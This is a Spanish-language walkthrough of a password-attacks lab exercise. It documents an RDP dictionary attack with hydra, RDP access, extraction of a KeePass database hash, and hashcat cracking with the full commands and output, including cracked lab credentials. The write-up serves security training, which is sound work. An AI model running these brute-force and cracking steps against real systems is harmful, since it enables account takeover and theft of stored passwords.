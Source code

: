 # Walk: Password Attacks - Password Manager - VM #2

## Fecha: 24/02/2025
## Host: Windows
## IP: 192.168.155.227
## Objetivo
Enumerate VM #2 and get access to the system as user _nadine_. Obtain the password stored as title "flag" in the password manager and enter it as answer to this exercise. Note that the flag is not formatted as **OS{}** for this exercise.
## Herramientas
1. nmap
2. hydra
3. xfreerdp
4. keepass2john
## Procedimiento y comandos
#### Paso 1: Obtener credenciales del usuario _nadine_
>Ataque de diccionario con hydra
- ` hydra -t 4 -V -l nadine -P /usr/share/wordlists/rockyou.txt rdp://192.168.155.227`
```
[ATTEMPT] target 192.168.155.227 - login "nadine" - pass "batman" - 199 of 14344399 [child 1] (0/0)
[RE-ATTEMPT] target 192.168.155.227 - login "nadine" - pass "martin" - 199 of 14344399 [child 0] (0/0)
[3389][rdp] host: 192.168.155.227   login: nadine   password: 123abc
[ERROR] freerdp: The connection failed to establish.
1 of 1 target successfully completed, 1 valid password found
```
- [3389][rdp] host: 192.168.155.227   login: nadine   password: **123abc**
#### Paso 2: Obtener KeePass:
1. Una vez conectados por rdp con el usuario _nadine_
`xfreerdp /v:192.168.155.227 /u:nadine /p:123abc +clipboard /cert:ignore /drive:/tmp`
2. Obtenemos el archivo **Database.kdbx**
3. Utilizamos **keepass2john** para formatear el archivo y guardarlo en un **_.hash_**
`keepass2sjohn Database.kdbx > keepass.hash`
4. Editamos el archivo quitando _**"Database:"**_
5. Obtenemos el modo para ejecutar **hashcat**
`hashcat -h | grep "KeePass"`
```
13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES) | Password Manager
```
6. Ejecutamos **hashcat** para obtener el keepass:
`hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force`
```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 430331550000

$keepass$*2*1*0*b1a85c5029830d00eead372eff9b2c0c5f2b78d8adf6090568429ba7b9622f25*27ab0d96aaacbb427dc6e9746fcf5148a468d042855186d3d1409d40ca018fa1*2eb108ae671a4aebcfa4217b5dcdccdc*ea47adcf48185eb7d670b25a3b2f8a535eb72339bbdf2e0d05c892bad22287f0*e250173255fbe9861707502ebef385c839fd328dac2f7874ff3b0bfc13cf4b56:pinkpanther1234
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13400 (KeePass 1 (AES/Twofish) and KeePass 2 (AES))
Hash.Target......: $keepass$*2*1*0*b1a85c5029830d00eead372eff9b2c0c5f2...cf4b56
Time.Started.....: Mon Feb 24 18:08:03 2025, (1 sec)
Time.Estimated...: Mon Feb 24 18:08:04 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/rockyou-30000.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   566.2 kH/s (1.47ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 401408/430331550000 (0.00%)
Rejected.........: 0/401408 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:48-49 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 1234561234 -> whitetiger1234
Hardware.Mon.#1..: Temp: 56c Util: 28%

```
> KeePass : **pinkpanther1234**
#### Paso 3: Obtenemos el flag
1. Colocamos el keepass para acceder al administrador de contrasenas y obtenemos el flag:
> **eSG**********************BWK**
